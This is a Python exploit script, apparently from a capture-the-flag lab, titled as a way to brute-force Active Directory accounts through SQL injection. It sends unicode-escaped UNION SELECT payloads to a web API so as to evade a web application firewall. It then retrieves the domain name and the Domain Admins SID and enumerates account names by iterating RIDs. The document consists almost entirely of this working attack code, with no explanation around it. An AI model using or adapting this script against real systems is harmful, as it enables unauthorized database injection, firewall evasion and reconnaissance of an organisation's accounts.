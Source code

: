 Python - Brute Force AD From SQLi

#!/usr/bin/env python3

import binascii
import requests
import struct
import sys
import time

payload_template = """test' UNION ALL SELECT 88,{},88,88,88-- -"""

def unicode_escape(s):
    return "".join([r"\u{:04x}".format(ord(c)) for c in s])

def issue_query(sql):
    while True:
        time.sleep(3)
        resp = requests.post(
            "http://10.10.10.179/api/getColleagues",

            data='{"name":"' + unicode_escape(payload_template.format(sql)) + '"}',

            headers={"Content-type": "text/json; charset=utf-8"},
            proxies={"http": "http://127.0.0.1:8080"},
        )
        if resp.status_code != 403:
            break
        sys.stdout.write("[-] Triggered WAF. Sleeping for 30 seconds")
        time.sleep(30)
    return resp.json()[0]["name"]

print("[*] Finding domain")
domain = issue_query("DEFAULT_DOMAIN()")
print(f"[+] Found domain: {domain}")

print("[*] Finding Domain SID")

sid = issue_query(f"master.dbo.fn_varbintohexstr(SUSER_SID('{domain}\Domain Admins'))")[:-8]

print(f"[+] Found SID for {domain} domain: {sid}")

for i in range(1100, 3200):
    sys.stdout.write(f"[*] Checking SID {i}" + " " * 50)
    num = binascii.hexlify(struct.pack("<I", i)).decode()
    acct = issue_query(f"SUSER_SNAME({sid}{num})")
    if acct:
        print(f"[+] Found account [{i:05d}]  {acct}" + " " * 30)
    time.sleep(1)

print("" + " " * 50)